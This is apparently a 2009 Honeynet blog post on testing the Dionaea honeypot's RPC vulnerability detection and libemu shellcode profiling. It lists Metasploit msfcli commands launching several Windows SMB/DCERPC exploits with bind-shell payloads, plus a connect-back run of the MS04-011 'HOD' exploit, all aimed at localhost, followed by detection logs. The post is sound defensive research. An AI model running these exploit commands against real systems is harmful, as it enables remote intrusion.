 ```yaml
---
title: "Iteolih: RPC vulnerability implementation party"
date: "2009-08-25"
tags: 
  - "iteolih-samba-dcerpc-python-libemu"
---
```


The [Dionaea](http://dionaea.carnivore.it/ "dionaea homepage") honeypot got more and more mature during the last weeks. As Markus blogged in [Iteolih: Miles and More](https://www.honeynet.org/node/485 "Markus' blog") the software is now able to detect shellcode via libemu and generates a nice shellcode profile out of this.

  
  

The SMB / DCERPC implementation also got fairly mature and is now able to cope with all packet types and also most caveats and differences of implementations in exploits. As I registered more and more RPC vulnerabilities in the module, it was definitely time to give libemu something to eat! :)

  
  
  
  

So I just launched some metasploit modules against the honeypot...

  
  
`#!/bin/sh  
./msfcli exploit/windows/smb/ms06_040_netapi PAYLOAD=windows/shell/bind_tcp RHOST=127.0.0.1 T=0 E  
./msfcli exploit/windows/smb/ms06_066_nwapi PAYLOAD=windows/shell/bind_tcp RHOST=127.0.0.1 T=0 E  
./msfcli exploit/windows/smb/ms06_066_nwwks PAYLOAD=windows/shell/bind_tcp RHOST=127.0.0.1 T=0 E  
./msfcli exploit/windows/dcerpc/ms03_026_dcom PAYLOAD=windows/shell/bind_tcp RHOST=127.0.0.1 T=0 E  
./msfcli exploit/windows/dcerpc/ms05_017_msmq PAYLOAD=generic/shell_bind_tcp HNAME=dionaea RPORT=135 RHOST=127.0.0.1 T=0 E  
./msfcli exploit/windows/dcerpc/ms07_065_msmq PAYLOAD=generic/shell_bind_tcp DNAME=www.google.de RPORT=135 RHOST=127.0.0.1 T=0 E  
./msfcli exploit/windows/smb/ms05_039_pnp PAYLOAD=generic/shell_bind_tcp RHOST=127.0.0.1 T=0 E  
./msfcli exploit/windows/dcerpc/ms03_026_dcom PAYLOAD=generic/shell_bind_tcp RHOST=127.0.0.1 T=0 E  
`  
  

... and watched dionaea spit out the info (cut for better blog experience):

  
  
`[25082009 18:06:00] emu : shellcode found offset 135  
[25082009 18:06:00] RPCVULN : got the DCERPC request for NetPathCanonicalize. MS08-067 exploit?  
[25082009 18:06:18] RPCVULN : got the DCERPC request for NwOpenEnumNdsSubTrees. MS06-066 exploit?  
[25082009 18:06:25] RPCVULN : got the DCERPC request for NwChangePassword. MS06-066 exploit?  
[25082009 18:06:45] RPCVULN : got the DCERPC request for RemoteActivation. MS03-026 exploit?  
[25082009 18:06:45] emu : shellcode found offset 988  
[25082009 18:07:01] RPCVULN : got the DCERPC request for QMDeleteObject. MS05-017 exploit?  
[25082009 18:07:01] emu : shellcode found offset 776  
[25082009 18:07:01] emukind : bindshell host 0.0.0.0 port 4444  
[25082009 18:07:08] RPCVULN : got the DCERPC request for QMCreateObjectInternal. MS07-065 exploit?  
[25082009 18:07:18] RPCVULN : got the DCERPC request for PNP_QueryResConfList. MS05-039 exploit?  
[25082009 18:07:38] RPCVULN : got the DCERPC request for RemoteActivation. MS03-026 exploit?  
[25082009 18:07:38] emu : shellcode found offset 1080  
[25082009 18:07:38] emukind : bindshell host 0.0.0.0 port 4444  
`  
  

Also the infamous HOD exploit triggers libemu nicely:

  
  
`$ ./hod 0 127.0.0.1 445 127.0.0.1  
  
MS04011 Lsasrv.dll RPC buffer overflow remote exploit v0.1  
--- Coded by .::[ houseofdabus ]::. --- 
doing connectback  
[*] Target: IP: 127.0.0.1: OS: WinXP Professional [universal] lsass.exe  
[*] Connecting to 127.0.0.1:445 ... OK  
[*] Attacking ... OK`  
  
`[25082009 18:08:09] emu : shellcode found offset 302  
[25082009 18:08:09] RPCVULN : got the DCERPC request for DsRolerUpgradeDownlevelServer. MS04-011 exploit?  
[25082009 18:08:09] emukind : connectbackshell host 127.0.0.1 port 445  
`  
  

With some exploits libemu does not give a correct shellcode profile or does not detect a shellcode - this will mostly be the case because of unicode encoding or some other custom encapsulation in the rpc packets. We will add some heuristics later which can preprocess the data to improve libemu's detection.

  
  

The honeypot also already supports shell emulation and ftp/http/tftp downloads of malware - but this was turned off for the above tests.

  
  

Feel free to checkout the honeypot's code and try it for yourself. We need testing and feedback! As documentation is rather small, feel free to ask questions in the nepenthes IRC channel.

  
  

Mark

